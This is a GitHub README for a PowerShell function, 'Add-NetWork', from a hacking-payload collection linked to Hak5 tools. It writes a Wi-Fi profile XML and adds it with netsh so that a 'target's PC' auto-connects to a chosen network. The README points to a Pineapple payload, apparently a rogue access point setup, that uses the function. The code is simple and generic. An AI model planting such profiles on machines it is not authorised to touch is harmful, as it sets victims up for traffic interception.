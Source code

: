 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Add-NetWork

## Description

This function will add a network profile to your targets PC  

## The Function

### [Add-NetWork] 

This function will accept 3 parameters, 2 of which are mandatory 

You always have to provide the $SSID to give your network a name 

The $Security parameter is also mandatory only takes the value of "t"(true) or "f"(false) 

This will tell the function whether or not you need a wifi password for your network 

If a wifi password is deemed necessary you provide it using the $PW variable 

Set-up a new network profile on your targets PC using the following syntax: 

```
For a network profile using a Password use:

Add-NetWork -SSID "wifi-name" -security "t" -PW "wifi-password"

For a network profile NOT using a Password use:

Add-NetWork -SSID "wifi-name" -security "f"

```


```
function Add-NetWork {

[CmdletBinding()]
param (	
[Parameter (Mandatory = $True)]
[string]$SSID,

[Parameter (Mandatory = $True)]
[string]$Security,

[Parameter (Mandatory = $False)]
[string]$PW

)

# -------------------------------------------------------------------------------------------------

$sec = switch ( $Security )
{
    "t"  { 
"
        <security>
            <authEncryption>
                <authentication>WPA2PSK</authentication>
                <encryption>AES</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
            <sharedKey>
                <keyType>passPhrase</keyType>
                <protected>false</protected>
                <keyMaterial>$PW</keyMaterial>
            </sharedKey>
        </security>
"
}
    "f" { 

"
        <security>
            <authEncryption>
                <authentication>open</authentication>
                <encryption>none</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
        </security>
" 

}
}

# -------------------------------------------------------------------------------------------------

$profilefile="ACprofile.xml"
$SSIDHEX=($SSID.ToCharArray() |foreach-object {'{0:X}' -f ([int]$_)}) -join''
$xmlfile="<?xml version=""1.0""?>
<WLANProfile xmlns=""http://www.microsoft.com/networking/WLAN/profile/v1"">
    <name>$SSID</name>
    <SSIDConfig>
        <SSID>
            <hex>$SSIDHEX</hex>
            <name>$SSID</name>
        </SSID>
    </SSIDConfig>
    <connectionType>ESS</connectionType>
    <connectionMode>auto</connectionMode>
    <MSM>
$sec
    </MSM>
</WLANProfile>
"

$XMLFILE > ($profilefile)
netsh wlan add profile filename="$($profilefile)"
}

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
(Examples of script that have used your function) - delete this line
Listed below are payloads that have used one of these functions:

[PineApple](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-PineApple)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
